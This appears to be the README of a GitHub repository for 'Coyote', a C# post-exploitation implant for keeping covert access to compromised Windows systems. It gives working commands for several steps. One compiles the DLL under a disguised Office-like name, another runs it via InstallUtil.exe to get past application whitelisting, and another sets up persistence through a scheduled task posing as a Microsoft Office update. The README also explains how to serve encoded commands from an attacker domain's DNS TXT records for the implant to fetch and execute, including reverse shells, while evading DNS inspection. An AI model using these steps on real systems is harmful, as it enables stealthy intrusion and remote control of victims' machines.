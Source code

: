 # Coyote

Coyote is a standalone C# post-exploitation implant for maintaining access to compromised Windows infrastructure during red team engagements.

* Bypasses application whitelisting (eg AppLocker) using InstallUtil.exe (see [MITRE ATT&CK ID: T1218.004](https://attack.mitre.org/techniques/T1218/004/))
* Retrieves encrypted commands from operator via recursive DNS tunnel (see [MITRE ATT&CK ID: T1071.004](https://attack.mitre.org/techniques/T1071/004/))
* Small footprint in memory and on the network

The basic premise is for the red team to leave this tiny DLL behind on a compromised Windows system and have it occasionally poll the DNS TXT record of a legitimate looking FQDN to check for instructions. When needed, the TXT record can contain a simple powershell one liner to spawn an interactive reverse shell out to a VPS, or the first stage of something more sophisticated, as per the operator's requirements. Coyote is not used for interactive control of the compromised system, rather to maintain access and spawn some other tool (a reverse shell, meterpreter etc) as required.

### Usage

First of all edit the coyote.cs source file and set the c2domain variable to the subdomain you will be using for your TXT record.

To compile it on your own Windows box: 

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:msoffice360.dll coyote.cs`

This will create a small DLL file of approximately 5 KB called msoffice360.dll (use whatever filename you think will blend in on the target) which you will place on the target system.

To execute it once on the target workstation or server: 

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U msoffice360.dll`

For it to be useful, Coyote needs to get executed repeatedly at some interval such as every 24 hours or upon each reboot. There are many ways to achieve this. See [PayloadsAllTheThings - Windows Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md) for a long list of techniques and pick one.

One way that will serve as an example is to hide the DLL in a user's AppData folder and then simply create a new scheduled task:

`schtasks /CREATE /SC DAILY /TN "Microsoft Office security updates task" /TR "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Olivia\AppData\Local\Microsoft\msoffice360.dll" /ST 08:00`

This means that every day at 0800 the built-in InstallUtil.exe will import and run the DLL's uninstall function, which will then do a recursive DNS lookup to check if a command is currently encoded in the TXT record, and if so execute it. This can hopefully remain undetected by the blue team until needed and act as a backup to any other methods being used to maintain remote access to the network.

To leave a command to be executed (generally this will be used to spawn an interactive reverse shell), use the included encrypt-payload.ps1 powershell script. Give it the exact string that you would have typed into the command line and copy the encrypted output into a TXT record on the subdomain that you set when you compiled the implant. Next time the implant calls home the TXT record will be decrypted and executed. Any network security product that happens to be examining DNS traffic (many networks don't even do this at all) will not be able to see the raw payload on the wire.

### Proof-of-concept

We use the encrypt-payload.ps1 powershell script to XOR our payload of "calc.exe" with our key of "pizza" and base64 encode the result: 

![Coyote payload encryption screenshot](https://github.com/TartarusLabs/Coyote/blob/main/screenshot2.jpg?raw=true)

Using the output of the powershell script we create a TXT record on our DNS server as follows:

`updates.tartaruslabs.com	TXT	EwgWGU8VER8=	7200`

It is best to set a fairly low TTL so that you don't have to wait too long each time you modify the TXT record for it to be dropped from the cache on the compromised network's own DNS server and refreshed from the authoritative DNS server. In this case we set the TTL to 7200 seconds, or 2 hours.

This record is saved and from a Linux laptop we then confirm it is active:

`user@laptop:~$ host -t txt updates.tartaruslabs.com`

`updates.tartaruslabs.com descriptive text "EwgWGU8VER8="`

In coyote.cs we set the value of c2domain to "updates.tartaruslabs.com" and XORkey to "pizza" then compile it on our Windows VM.

We execute the implant and sure enough calculator opens. 

![Coyote screenshot](https://github.com/TartarusLabs/Coyote/blob/main/screenshot.jpg?raw=true)

### Contributing

Contributions from the community to improve this tool are welcome. 

If you are unsure whether your proposed change is likely to be accepted feel free to post your idea on the Issues page and we can discuss it before you do the work of implementing it.

In order to contribute your additions to the code please follow the standard process:

* Fork this repo to your own GitHub account and then clone that to your local system.
* Create a new branch to work on.
* Make, test and commit your intended changes.
* Push your changes to your fork.
* Submit a pull request to me.

For a detailed step-by-step guide see [first-contributions](https://github.com/firstcontributions/first-contributions)

Feature requests and bug reports are also welcome and can be posted on the Issues page.
